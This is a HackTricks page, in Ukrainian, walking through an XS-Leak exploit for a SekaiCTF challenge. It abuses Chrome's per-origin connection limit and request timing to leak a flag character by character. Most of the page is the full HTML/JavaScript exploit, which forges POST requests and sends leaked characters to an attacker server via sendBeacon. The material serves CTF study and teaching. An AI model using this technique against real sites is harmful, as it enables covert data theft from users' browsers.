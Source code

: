 # Connection Pool by Destination Example

{{#include ../../banners/hacktricks-training.md}}

У [**цьому експлойті**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) пропонує ще одне рішення для проблеми, згаданої на наступній сторінці:

{{#ref}}
connection-pool-by-destination-example.md
{{#endref}}

Давайте подивимося, як працює цей експлойт:

- Зловмисник вставить нотатку з якомога більшою кількістю **`<img`** тегів **завантажуючи** **`/js/purify.js`** (більше 6, щоб заблокувати джерело).
- Потім зловмисник **видалить** **ноту** з індексом 1.
- Потім зловмисник \[змусить **бота отримати доступ до сторінки** з залишеною нотаткою] і надішле **запит** до **`victim.com/js/purify.js`**, який він **виміряє**.&#x20;
- Якщо час **більший**, **ін'єкція** була в **ноті**, що залишилася, якщо час **менший**, **прапор** був там.

> [!NOTE]
> Чесно кажучи, читаючи скрипт, я пропустив частину, де **зловмисник змушує бота завантажити сторінку, щоб активувати img теги**, я не бачу нічого подібного в коді.
```html
<html>
<head>
<script>
const SITE_URL = "https://safelist.ctf.sekai.team/"
const PING_URL = "https://myserver"
function timeScript() {
return new Promise((resolve) => {
var x = document.createElement("script")
x.src =
"https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
var start = Date.now()
x.onerror = () => {
console.log(`Time: ${Date.now() - start}`) //Time request
resolve(Date.now() - start)
x.remove()
}
document.body.appendChild(x)
})
}

add_note = async (note) => {
let x = document.createElement("form")
x.action = SITE_URL + "create"
x.method = "POST"
x.target = "xxx"

let i = document.createElement("input")
i.type = "text"
i.name = "text"
i.value = note
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

remove_note = async (note_id) => {
let x = document.createElement("form")
x.action = SITE_URL + "remove"
x.method = "POST"
x.target = "_blank"

let i = document.createElement("input")
i.type = "text"
i.name = "index"
i.value = note_id
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
// }zyxwvutsrqponmlkjihgfedcba_
const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
var prefix = "SEKAI{xsleakyay"
const TIMEOUT = 500
async function checkLetter(letter) {
// Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
// Depending whether we found flag's letter it will either load the images or not.
// With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
const payload =
`${prefix}${letter}` +
Array.from(Array(78))
.map((e, i) => `<img/src=/js/purify.js?${i}>`)
.join("")
await add_note(payload)
await sleep(TIMEOUT)
await timeScript()
await remove_note(1) //Now, only the note with the flag or with the injection existsh
await sleep(TIMEOUT)
const time = await timeScript() //Find out how much a request to the same origin takes
navigator.sendBeacon(PING_URL, [letter, time])
if (time > 100) {
return 1
}
return 0
}
window.onload = async () => {
navigator.sendBeacon(PING_URL, "start")
// doesnt work because we are removing flag after success.
// while(1){
for (const letter of alphabet) {
if (await checkLetter(letter)) {
prefix += letter
navigator.sendBeacon(PING_URL, prefix)
break
}
}
// }
}
</script>
</head>
<body></body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
